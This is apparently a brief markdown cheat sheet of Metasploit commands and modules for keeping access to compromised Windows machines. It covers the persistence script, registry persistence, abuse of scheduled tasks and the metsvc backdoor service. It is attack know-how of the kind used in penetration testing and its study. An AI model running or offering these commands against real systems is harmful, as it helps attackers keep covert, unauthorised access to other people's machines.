 # metasploit

## How to Maintain Access

* don't run this unless it is absolutely needed, it opens a port and is dangerous

```bash
run persistence -h
```

### Other Modules for Persistence

```bash
exploit/windows/local/persistence
```

```bash
exploit/windows/local/registry_persistance
```

## Scheduled Tasks

```bash
run scheduleme
```

```bash
run schtasksabuse
```

## Metavc

```bash
run metsvc -A
```
